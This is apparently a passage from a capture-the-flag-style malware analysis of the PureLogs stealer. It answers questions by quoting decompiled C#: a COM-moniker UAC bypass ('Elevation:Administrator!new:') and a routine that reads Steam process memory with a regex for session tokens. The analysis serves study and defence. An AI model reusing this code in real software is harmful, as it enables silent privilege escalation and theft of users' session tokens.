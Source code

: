 ```bash
		list3.Add((obj2 != null) ? obj2.ToString().ToLower() : null);
	}
	catch
	{
	}
	return list;
```

**Win32_ComputerSystem**

## 8. PureLogs uses a trick to bypass the "Run as Administrator" (UAC) prompt by starting a special COM object. What exact string does it add before the COM CLSID to request an elevated instance?
```bash
public static object com_obj_bypass_UAC(Guid guid_0, Guid guid_1)
		{
			string str = guid_0.ToString("B");
			string string_ = "Elevation:Administrator!new:" + str;
			Main_cls.Struct9 structure = default(Main_cls.Struct9);
			structure.uint_0 = (uint)Marshal.SizeOf<Main_cls.Struct9>(structure);
			structure.intptr_0 = IntPtr.Zero;
			structure.uint_5 = 4U;
			return Main_cls.CoGetObject(string_, ref structure, guid_1);
		}
```
- `Elevation:Administrator!new:{CLSID}` means: This is a `COM moniker` format that tells Windows to launch a `COM object ({CLSID})` with `administrator` privileges using `auto-elevation` if available, without a UAC prompt, if conditions allow
- `{3E5FC7F9-9A51-4367-9063-A120244FBEC7} → ShellExecute`

**Elevation:Administrator!new:**

## 9. PureLogs uses COM objects to silently bypass User Account Control (UAC) and relaunch itself with elevated privileges. What ATT&CK technique does this behavior map to?
- as malware use UAC bypass, then it maps to [T1548.002](https://attack.mitre.org/techniques/T1548/002/)

**T1548.002**

## 10. What regex pattern does PureLogs use to find Steam session tokens?
```bash
Process process = Process.GetProcessesByName("steam").FirstOrDefault<Process>();
				if (process != null)
				{
					IntPtr intPtr = stealapp_cls.OpenProcess(16, false, process.Id);
					if (!(intPtr == IntPtr.Zero))
					{
						using (stealapp_cls.Class6 @class = new stealapp_cls.Class6(intPtr))
						{
							IntPtr intPtr2 = IntPtr.Zero;
							IntPtr intPtr3 = new IntPtr(int.MaxValue);
							byte[] array = new byte[4096];
							Regex regex = new Regex("[A-Za-z0-9-_]{16,}\\.[A-Za-z0-9-_]{40,}\\.[A-Za-z0-9-_]{40,}");
							while (intPtr2.ToInt64() < intPtr3.ToInt64())
							{
								int count;
								if (stealapp_cls.ReadProcessMemory(@class.Handle, intPtr2, array, array.Length, out count))
								{
```